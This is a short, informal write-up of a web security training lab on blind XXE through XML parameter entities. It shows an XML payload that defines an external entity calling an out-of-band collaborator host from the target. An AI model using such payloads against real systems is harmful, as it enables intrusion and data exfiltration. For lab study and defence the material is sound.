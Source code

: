 # [XXE] Lab: Blind XXE with out-of-band interaction via XML parameter entities (1)

---

![Untitled](%5BXXE%5D%20Lab%20Blind%20XXE%20with%20out-of-band%20interaction%20v%201c7c49ea251c451ea43e80fc0b522fb3/Untitled.png)

lets first go to the check stock feature and lets try to capture the request that is sending the XML document. 

![Untitled](%5BXXE%5D%20Lab%20Blind%20XXE%20with%20out-of-band%20interaction%20v%201c7c49ea251c451ea43e80fc0b522fb3/Untitled%201.png)

let send that repeater and try to manipulate the request. and define our own external XML entity. 

lets start up the collaborator and launch try to have the XML entity issue a DNS request to our server 

![Untitled](%5BXXE%5D%20Lab%20Blind%20XXE%20with%20out-of-band%20interaction%20v%201c7c49ea251c451ea43e80fc0b522fb3/Untitled%202.png)

payload:

 <!DOCTYPE foo [ <!ENTITY test SYSTEM "[http://bm1wpx45xwrxl4uziazaaqpcw32uqke9.oastify.com](http://bm1wpx45xwrxl4uziazaaqpcw32uqke9.oastify.com/)"> ]>

![Untitled](%5BXXE%5D%20Lab%20Blind%20XXE%20with%20out-of-band%20interaction%20v%201c7c49ea251c451ea43e80fc0b522fb3/Untitled%203.png)

so in this case we can we can see that external entities are blacklisted so one of the thing we’re going o have to use XML parameter entity, which is a entity that is defined with the !ENTITY key word and is done within the DTD. 

**Like this:** 

![Untitled](%5BXXE%5D%20Lab%20Blind%20XXE%20with%20out-of-band%20interaction%20v%201c7c49ea251c451ea43e80fc0b522fb3/Untitled%204.png)

And there we have it lab solved: 

![Untitled](%5BXXE%5D%20Lab%20Blind%20XXE%20with%20out-of-band%20interaction%20v%201c7c49ea251c451ea43e80fc0b522fb3/Untitled%205.png)